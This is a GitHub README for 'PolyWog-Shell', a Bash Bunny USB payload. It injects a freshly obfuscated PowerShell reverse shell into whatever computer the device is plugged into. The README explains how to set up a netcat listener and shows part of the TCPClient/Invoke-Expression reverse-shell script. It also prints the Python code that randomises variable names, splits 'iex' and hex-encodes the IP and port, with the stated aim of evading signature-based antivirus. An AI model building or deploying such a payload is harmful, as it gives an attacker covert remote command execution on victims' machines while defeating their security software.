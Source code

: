 
# PolyWog-Shell 
### By: Hak5Peaks


## PolyWog Shell Description. 

Poly shell is a reverse shell generator designed for the Bash Bunny. This payload uses a python2 + bash script to generate a powershell payload with a unique signature, that evades signature based detection anti viruses. Every time the bash bunny is plugged into a computer, a unique powershell script will be injected into the target machine. 

The python2 script uses a base powershell payload and randomizes/obfuscates parts of the powershell payload. Using methods such as variable and string Obfuscation and IP and Port Encoding

## LED. 

- Blue, payload has started and is running.
- Red, Payload failed, most likely due to missing `shell.py`
- Green, payload has completed. 


## Configuations. 

This script requires minimal configuration. simply launch a nc listener `nc -lvnp PORT` and copy the IP and Port from your listener into the IP and Port variable on the payload. Then place the python2 script `shell.py` inside of the `tools` directory of the udisk.
 

### Shell + Payload configuation Example
<div style="display: flex; justify-content: center; gap: 10px;">
    <img src="https://github.com/user-attachments/assets/874226a5-6d3e-47d4-93bd-70fbf0ef5d2a" width="45%">
    <img src="https://github.com/user-attachments/assets/7f656678-575e-43b3-8988-a60a70b01169" width="45%">
</div>

### Udisk configuration Example

![image](https://github.com/user-attachments/assets/daf4b620-5d38-4ceb-86b0-95edafd0494d)


## Requirements. 

Ensure correct configuation as stated above. There is `no` other requirments or external packages that need to be install. 




# For anyone interest in the code! ↓




## Code break down - Base powershell script. 

![image](https://github.com/user-attachments/assets/4fb614fe-7593-4b43-ac6c-46bcecf88b3d)


This is the base powershell script that is plugged into the python2 script. It is a simple reverse shell that uses `System.Net.Sockets.TCPClient` to make remote connections to our netcat listener. This connection is TCP connection is kept open and the script waits for a response back from the netcat server and runs the results in shell  using `Invoke-Expression` Once a command is received and ran the output of the command is sent back using `StreamWriter` to the remote IP and Port specified in the powershell payload. Very simple :D 



## Code break down - Python obfuscator script. 

![image](https://github.com/user-attachments/assets/a4c96bab-5d59-43c3-b1d8-099a7b43eb1a)

This is the python script that stores our original powershell payload. The python script's job is to use regexing to modify, randomize and replace parts of our original powershell payload in order to create a brand new payload that achieves the same functionality as the original. 

It does it using these functions, 

First, when the script is called it takes in our command line arguments from the bash script and stores them as variables within the script 
```
ip = sys.argv[1]
port = sys.argv[2]
```
Second, the script replaces our IP and Port within out powershell payload, 
```
script = """$tcp=New-Object System.Net.Sockets.TCPClient('*LHOST*',*LPORT*);...
```
Third, the python script looks for variables names within our powershell payload and replaces them with random letters 
```
var_dict = {}
pattern = re.compile(r'(?!\$PSHOME)(\$[A-Za-z][A-Za-z0-9]+)')
def replace_var(match):
    var_name = match.group(1)
    if var_name not in var_dict:
        var_dict[var_name] = '$' + ''.join(random.sample(string.ascii_letters + string.digits, 10))
    return var_dict[var_name]

script = pattern.sub(replace_var, script)
```
Resulting in a output similar to this `$tcp -> $aBc123dEf4` 
 
Then, the python script will search for certain commands such as `iex` that can be easily changed. without creating conflicts. `iex -> i''ex`
```
pattern = re.compile(r'\biex\b')
script = pattern.sub("i''ex", script)
```
The script then moves on to convert our IP and port numbers to hex. 

```
pattern = re.compile(r'\b(?!65535)([1-9]\d{1,3}|[1-5]\d{4}|6[0-4]\d{3}|65[0-4]\d{2}|655[0-2]\d|6553[0-5])\b')
def port_to_hex(match):
    port_number = int(match.group())
    return hex(port_number)

script = pattern.sub(port_to_hex, script)
```
The brand new powershell payload is stored as shell.txt so its contents can later be used inside out bash bunny payload. 



